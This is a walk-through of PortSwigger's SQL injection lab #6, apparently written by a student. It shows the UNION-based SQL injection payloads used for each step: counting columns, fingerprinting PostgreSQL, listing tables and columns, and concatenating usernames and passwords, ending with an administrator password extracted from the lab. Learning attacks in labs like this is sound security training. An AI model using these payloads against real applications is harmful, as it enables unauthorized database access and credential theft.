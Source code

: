# PortSwigger SQLi Lab #6 Walk-Through

## Lab: SQL injection UNION attack, retrieving multiple values in a single column

<br>

<br>

### **1. Determine the number of columns and data types returned from a query.**
Since it seems as if there are two columns, try to kill two birds with one stone. If there is a 200 status code, this means the first column is a string while there are two columns. It is known that only one column will be a string from the prompt of the lab.

```SQL
' UNION select 'a', NULL--
```
500 Internal Server Error
```SQL
' UNION select NULL, 'a'--
```
200 OK


<br>

> **Number of columns = 2**

> **Data types = unknown, string**

<br>

### **2. Determine the type/version of the database.**

<br>

Use the following portswigger cheat sheet.
https://portswigger.net/web-security/sql-injection/cheat-sheet

Microsoft Database Version Payload with 2 columns:
```SQL
' UNION SELECT NULL, @@version--
```
500 Internal Server Error, it is not a microsoft database.

PostgreSQL Database Version Payload with 2 columns:
```SQL
' UNION SELECT NULL, version()--
```
200 OK; it is a postgreSQL database.


``` HTML
<th>PostgreSQL 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit</th>
```
<br>

> **Database Type = PostgreSQL**

<br>

### **3. Find the table names of the PostgresSQL databse.**

Using the cheatsheet:
```SQL
SELECT * FROM information_schema.tables
```
The correct way to specific table names in PostgreSQL is 'table_name'.

```SQL
' UNION SELECT NULL, table_name FROM information_schema.tables--
```
In the 200 response, the table 'users' can be find which likely has information of the usernames and passwords.

> **Table Name = 'users'**

<br>

### **4. Now find the column names of the 'users' table.**

From the cheat sheet:
```SQL
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

The payload:
```SQL
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name = 'users'--
```
The two columns 'username' and 'password' can be found in the response.

> **Column Names = username, password**

<br>

### **5. Now that the column names and table names is known, retreive multiple values in a single column.**

<br>

To retrevie multiple values in a single column use a the double verticle bars. 
This operator will separate each output in the same column by the listed characters.

```SQL
' UNION SELECT NULL, username||'~'||password FROM users--
```
In the 200 response, the following can be found:
```HTML
<th>
    administrator~cldx3xkz6lkikrst58su
</th>
```
> **Username = administrator**

> **Password = cldx3xkz6lkikrst58su**

<br>

### **6. Return to the website and login as the administrator.**

<br> 

### Congratulations! The lab has been completed!

